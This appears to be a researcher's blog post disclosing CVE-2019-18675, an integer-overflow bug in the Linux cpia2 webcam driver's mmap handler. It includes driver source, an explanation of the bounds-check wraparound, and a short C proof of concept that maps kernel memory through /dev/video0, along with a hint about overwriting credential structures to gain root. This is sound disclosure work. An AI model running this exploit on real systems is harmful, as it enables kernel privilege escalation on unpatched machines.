 ```yaml
---
layout: post
title: mmap handler exploitation
category: Kernel-Research 
---
```


## Description
Recently I started to review the linux kernel, I've putted much  time and effort trying to identify vulnerabilities. 
I looked on the cpia2 driver , which is a V4L driver , aimed for supporting cpia2 webcams. official documentation [here]( https://www.kernel.org/doc/html/latest/media/v4l-drivers/cpia2.html). 
I found a vulnerability in the mmap handler implementation of the driver. Kernel drivers may re-implement their own mmap handlers , usually for speeding up the process of exchanging data between user space and kernel space. The cpia2 driver re-implement a mmap hanlder for sharing  the frame's buffer with the user application which controls the camera.
---

## Lets get into it 
Here is the userspace mmap function prototype (taken from man):
```c
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```
Here the user supplies parameter for the mapping , we will be interested in the size and offset parameters.
- length - will determine the length of the mapping
- offset - will determine the offset from the beginning of the device we will start the mapping from.

The driver's specific mmap handler will remap kernel memory to userspace using a function like  [remap_pfn_range](https://www.kernel.org/doc/htmldocs/kernel-api/API-remap-pfn-range.html)
## CVE-2019-18675

Lets have a look at the cpia2 mmap handler implementation:

We can see  the file_operations struct:
```c

/***
 * The v4l video device structure initialized for this device
 ***/
static const struct v4l2_file_operations cpia2_fops = {
	.owner		= THIS_MODULE,
	.open		= cpia2_open,
	.release	= cpia2_close,
	.read		= cpia2_v4l_read,
	.poll		= cpia2_v4l_poll,
	.unlocked_ioctl	= video_ioctl2,
	.mmap		= cpia2_mmap,
    };
```

Lets look at the function cpia2_mmap 
```c
static int cpia2_mmap(struct file *file, struct vm_area_struct *area)
{
	struct camera_data *cam = video_drvdata(file);
	int retval;

	if (mutex_lock_interruptible(&cam->v4l2_lock))
		return -ERESTARTSYS;
	retval = cpia2_remap_buffer(cam, area);

	if(!retval)
		cam->stream_fh = file->private_data;
	mutex_unlock(&cam->v4l2_lock);
	return retval;
}
```

It just calls the function cpia2_remap_buffer() with a pointer to the `camera_data` struct:

```c
/******************************************************************************
 *
 *  cpia2_remap_buffer
 *
 *****************************************************************************/
int cpia2_remap_buffer(struct camera_data *cam, struct vm_area_struct *vma)
{
	const char *adr = (const char *)vma->vm_start;
	unsigned long size = vma->vm_end-vma->vm_start;
	unsigned long start_offset = vma->vm_pgoff << PAGE_SHIFT;
	unsigned long start = (unsigned long) adr;
	unsigned long page, pos;

	DBG("mmap offset:%ld size:%ld\n", start_offset, size);

	if (!video_is_registered(&cam->vdev))
		return -ENODEV;

	if (size > cam->frame_size*cam->num_frames  ||
	    (start_offset % cam->frame_size) != 0 ||
	    (start_offset+size > cam->frame_size*cam->num_frames))
		return -EINVAL;

	pos = ((unsigned long) (cam->frame_buffer)) + start_offset;
	while (size > 0) {
		page = kvirt_to_pa(pos);
		if (remap_pfn_range(vma, start, page >> PAGE_SHIFT, PAGE_SIZE, PAGE_SHARED))
			return -EAGAIN;
		start += PAGE_SIZE;
		pos += PAGE_SIZE;
		if (size > PAGE_SIZE)
			size -= PAGE_SIZE;
		else
			size = 0;
	}

	cam->mmapped = true;
	return 0;
}
```
we can see that start_offset + size is being calculated , and the sum is being compared to the total size of the frames:
```c
if(... || (start_offset+size > cam->frame_size*cam->num_frames))
    return -EINVAL;
```

However, the calculation start_offset + size could wrap-around to a low value (a.k.a Integer Overflow), allowing an attacker to bypass the check while still using a  big start_offset value which will lead to mapping of unintended  kernel memory. The only requirement is that the start_offset value will be a multiple of the frame_size (which can be controlled by the cpia2 driver options, by default its 68k).
And this can be  quite bad because a huge offset will allow us to perform a mapping in an arbitrary offset (outside of  the frame buffer's bounds)  , and this  can possibly result in  a privillege escalation

## Demo time!

I've used a qemu kernel virtual machine ([here]()).
Now we have to:

- Open /dev/video0 
- mmaping size 0x11000 at offset 0xffffffffffff0000. The overlow will ocuur and we will pass the check :)

Here is a minimalistic example for exploit code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>

#define VIDEO_DEVICE "/dev/video0"
int main(){

        pid_t pid;
        char command[40];

        int fd =  open(VIDEO_DEVICE , O_RDWR);
        if(fd < 0){
                printf("[-]Error opening device file\n");
        }

        printf("[+]Demonstration\n");
        pid = getpid();
        printf("[~]PID IS %d ", pid);

        getchar();
        int size =  0x11000;
        unsigned long mapStarter = 0x43434000;
        unsigned long * mapped = mmap((void *)mapStarter,  size, PROT_WRITE | PROT_READ, MAP_SHARED , fd , 0xffffffffffff0000);


        if(mapped == MAP_FAILED)
                printf("[-]Error mapping the specified region\n");
        else
                puts("[+]mmap went successfully\n");
        /*view the /proc/<pid>/maps file */

        sprintf(command , "cat /proc/%d/maps", pid);
        system(command);

        return 0;
}

```
Compile and run:

![](/assets/img/alictf-2016/demo.png) 

and B00M! we have got a read and write primitives in kernel space! By modifying `` struct cred `` or kernel function pointers/ variables we can possibly gain root! or destroy kernel data!

## Tips and thoughts 

- Because I didnt have the required hardware (for example,  Intel Qx5 microscope ), I've made some changes in the driver's code for this poc . I made some changes to the hardware and usb's parts, In a way that allowed me to test the mmap functionallity as its in the original driver . Because the vulnerability is not related to the hardware interaction partsl , this wasn't a problem. 
This way I could research more and even debug the interesting parts  without being depend on hardware.

- This vulnerability is more than 8 years old!

- This is my first public vulnerability!


## Additional info

- CVE-2019-18675 on [NVD](https://nvd.nist.gov/vuln/detail/CVE-2019-18675)
- CVE-2019-18675 on [Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18675)
